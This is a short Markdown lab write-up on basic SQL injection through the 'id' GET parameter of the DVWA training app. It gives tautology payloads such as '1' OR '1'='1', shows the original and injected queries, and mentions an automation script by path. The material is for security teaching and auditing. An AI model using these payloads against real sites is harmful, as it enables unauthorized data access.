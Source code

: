 # 🛡️ Basic SQL Injection on ID Field (GET Request)

## 1. Objective

Perform a **basic SQL Injection** by manipulating a GET parameter (`id`) to retrieve information from the database without proper authorization.

---

## 2. Target

Target URL example:

```plaintext
http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit
```

---

## 3. Manual Injection Example

Try injecting payloads such as:

```plaintext
1' OR '1'='1
```

or:

```plaintext
2' OR 1=1#
```

Result:

- The SQL query becomes **always true** (`WHERE id = '1' OR '1'='1'`), so the application displays **all users** or **unintended information**.

---

### 🖼️ Example Screenshot

Example result after successful basic SQL Injection:

```markdown
![SQL Injection Result Example](../images/sqli_basic_id_injection_result.png)
```

---

## 4. Internal Behavior (SQL Query)

Normal query:

```sql
SELECT first_name, last_name FROM users WHERE id = '1';
```

Injected query:

```sql
SELECT first_name, last_name FROM users WHERE id = '1' OR '1'='1';
```

Explanation:

- The condition is **always true**.
- The application **leaks more information** than intended.

---

## 5. Python Script to Automate the Test

We created a Python script that:

- Sends multiple payloads into the `id` parameter.
- Detects different responses based on the page content (e.g., keyword detection).

Script location:

```plaintext
audit-web/sql_injection/scripts/test_basic_sqli_id.py
```

The script uses:

- `requests`
- `BeautifulSoup` (optional)

Purpose:

- Quickly test several SQL payloads.
- Identify vulnerable behaviors automatically.





